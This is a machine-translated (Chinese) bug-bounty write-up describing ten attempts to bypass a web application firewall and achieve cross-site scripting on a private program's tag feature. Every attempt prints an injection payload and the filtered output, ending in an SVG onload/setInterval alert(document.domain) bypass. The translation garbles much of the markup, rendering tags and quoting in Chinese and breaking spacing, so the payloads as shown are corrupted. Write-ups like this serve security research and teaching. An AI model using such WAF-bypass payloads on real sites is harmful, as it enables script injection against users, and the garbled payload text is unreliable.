






# 尝试 10 次绕过魔鬼的 WAF，跳向地狱:

> 原文：<https://infosecwriteups.com/jumping-to-the-hell-with-10-attempts-to-bypass-devils-waf-4275bfe679dd?source=collection_archive---------1----------------------->

这是一篇关于私有 bbp 上 waf 旁路的快速文章，所以我将隐藏这个程序的名字。

环顾应用程序，我发现了一个吸引我注意的入口标签功能点:

这个应用程序基本上加载了一个标签项，我从这个开始:

###第一次尝试:

> `***injection: “=””’>****
*`
> 
> **输出为**:
> 
> **" = " " '&gt；&lt；详情公开= " "&gt；(0)/**

没什么…

###第二次尝试

> `***injection:*** *“=””’>****</>****
*`
> 
> **输出为**:
> 
> **" = " " '&gt；&lt；/&gt；&lt；详情公开= " "&gt；(0)/**

没什么…

###第三次尝试:

> `***injection:***` " = " " '></>**<脚本></脚本>** <详情打开="" >
> 
> **输出为:**
> 
> **" = " " '&gt；

**

**砰！我们得到了 HTML 注入！**

**现在…去寻找珍贵的 XSS…**

####第四次尝试:

我更改了 **svg、**的细节标签

> `***injection:***`" = " " '></>/<脚本></脚本>**<SVG onload = alert(1)>**
> 
> **输出为:**
> 
> " = " " '>**<SVG onload = " al…(1)= " "></SVG>**

**奇怪？是的..拼命地..DOM 中也有丑陋的点…(标签工作正常，就像上面显示的细节标签)**

但是没有弹出窗口:(

####第五次尝试:

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload**" = "**alert(1)>
> 
> **输出为:**
> 
> **<SVG onload " = "……(1)>**<a href = " " = " " class = " " rel = " 1 "></SVG>

WTF？你在开玩笑吗？

瓦特？

好吧，丑陋的混蛋…现在这是私人恩怨..

####第六次尝试:

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload**" = " " alert onload = alert(1)" ">**
> 
> **输出为:**
> 
> **<跨度>" = " " '&gt；<SVG onload " = "…(1)" " = " "></SVG>**

好吧，我放弃..这不起作用..

###第七次尝试:

> `***injection:***` " ="" ' > < / > <脚本></脚本><SVG onload**" = " alert onload = alert(1)" " onload = prompt(1)>**
> 
> **输出为:**
> 
> **onload = " prompt</SVG>

哦，太好了！我更近了..我能感觉到..

我能感受到你的能量..ak1t4..

####第八次尝试:

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload " = " alert onload = alert(1)" "**onload = prompt ` 1 `>**
> 
> **输出为:**
> 
> **<SVG onload "…= " "(1)" " = " " onload = " prompt ` 1 ` "></SVG>:)**

**嘣！我们抓到 XSS 了！**

好..现在试着用 **document.domain:**

####第九次尝试:

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload " = " alert onload = alert(1)" "**onload = prompt ` document . domain `>**
> 
> **输出为:<SVG onload "…= " "(1)" " = " " onload = " prompt ` document . domain ` ">/SVG>:(**

**WTF？**粘性大便被当作字符串输入…

嗯，是时候召唤一个真正的绝地武士了:野蛮大师前来拯救，并为原力带来平衡..

所以我问他如何通过 sticky shits ' 1 '注入 document.domain

他的回答是:

####最后一次尝试大师蛮力的神奇触摸:)

> `***injection:***`" = " " '></>/<脚本></脚本><SVG onload " = " alert on load = alert(1)" " onload =**setinterval ` alert \ x28 document . domain \ x29 `**

**嘣宝宝！**

***感谢 BRUTELOGIC 大师指引我走向最后的命运:)**

XSS 不是我的领域，所以我觉得

**愿原力与你同在——黑客快乐:)**

页（page 的缩写）d:我不是程序员，我靠常识和逻辑来入侵。欢迎所有的批评家不断改进。我希望你喜欢这个讲座，就像我喜欢写作一样。

 [## HackerOne 简介— ak1t4

### 怀特 4t Hack3r &禅宗和尚&赏金猎人——https://twitter.com/knowledge_2014

hackerone.com](https://hackerone.com/ak1t4)  [## ak1t4 z3n (@knowledge_2014) |推特

### ak1t4 z3n 的最新推文(@knowledge_2014)。Bug 赏金猎人——HoF:谷歌——Mozilla——PayPal——微软……

twitter.com](https://twitter.com/knowledge_2014)